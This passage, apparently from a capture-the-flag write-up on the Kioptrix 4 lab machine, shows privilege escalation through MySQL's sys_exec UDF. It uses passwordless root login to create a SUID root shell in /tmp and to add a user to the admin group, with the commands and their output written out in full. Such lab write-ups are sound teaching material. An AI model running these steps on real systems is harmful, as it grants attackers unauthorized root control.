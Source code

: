Above python script did not work due to argparse module not being present on the
system, next a manual attempt will be performed.

After reading about the vulnerability in the article below, it seems like
lib_mysqludf_sys needs to be present in order to exploit the vulnerability:

<https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html>

Searching for the library:
```bash
robert@Kioptrix4:/tmp$ find / -name lib_mysqludf_sys* 2>/dev/null
/usr/lib/lib_mysqludf_sys.so
```

After searching for the library, it is confirmed that it's present on the
system.

Next, MySQL authentication should be performed:

```bash
robert@Kioptrix4:/tmp$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17267
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

Privilege Escalation can be done in several ways.

As per the python script above, once MySQL authentication is performed, the same command can be executed manually in MySQL. As can be seen below the SUID binary was created and when executed access to root account has been granted.

```bash
mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
    -> ;
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
| NULL                                                                    | 
+-------------------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> exit
Bye
robert@Kioptrix4:~$ cd /tmp/
robert@Kioptrix4:/tmp$ ls
46249.py  LinEnum.sh  sh
robert@Kioptrix4:/tmp$ ./sh
# whoami
root
```

Second way is to add the user (robert) to administrative group.

```bash
mysql> select sys_exec('usermod -a -G admin robert');
+----------------------------------------+
| sys_exec('usermod -a -G admin robert') |
+----------------------------------------+
| NULL                                   | 
+----------------------------------------+
1 row in set (0.04 sec)
mysql> exit
Bye
```
